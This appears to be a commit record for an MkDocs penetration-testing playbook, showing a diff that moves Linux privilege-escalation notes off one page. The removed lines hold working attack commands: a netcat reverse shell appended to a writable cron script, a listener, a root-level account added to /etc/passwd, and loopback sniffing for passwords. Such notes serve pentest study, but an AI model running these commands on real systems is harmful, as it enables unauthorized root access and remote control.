

Before and after one commit to stafford-m/pt-playbook, an MkDocs documentation site: the page built from docs/privesc/linux/informationexposure.md, in a window 1280 px wide and 1400 px high, scrolled down 456 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
finish linux privesc

````diff
--- a/docs/privesc/linux/informationexposure.md
+++ b/docs/privesc/linux/informationexposure.md
@@ -30,49 +30,3 @@ Inspecting loopback traffic
 ```bash
 sudo tcpdump -i lo -A | grep "pass"
 ```
-
-## Cron jobs
-
-__REQUIRES__
-
- - Cronjob running a script
- - Write permission over said script
- - Said script running on reasonable interval
-
-Check cron history and verify file permissions
-```bash
-grep "CRON" /var/log/syslog
-
-ls -lah $file
-```
-
-Append rshell
-```bash
-echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ip 1234 >/tmp/f" >> $file
-```
-
-catch rshell
-```bash
-nc -lvnp 1234
-```
-
-## Abuse Password Authentication
-
-__REQUIRES__
-
- - Write permissions on /etc/passwd
-
-Create password hash
-```bash
-openssl passwd my_pass
-```
-
-Add account to /etc/passwd
-```bash
-echo "rooty:$hash:0:0:root:/root:/bin/bash" >> /etc/passwd
-```
-
-Sign in as new user
-```bash
-su rooty
-```
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -41,6 +41,8 @@ nav:
       - Linux Privesc:
           - privesc/linux/linuxosenum.md
           - privesc/linux/informationexposure.md
+          - privesc/linux/insecurefilepermissions.md
+          - privesc/linux/insecuresystemcomponents.md
   - Active Directory:
       - activedirectory/adenumeration.md
   - Service Enumeration:
````
Also changed, not shown: docs/privesc/linux/insecurefilepermissions.md (added, +47 -0 lines), docs/privesc/linux/insecuresystemcomponents.md (added, +83 -0 lines), notes.txt (deleted, +0 -40 lines).
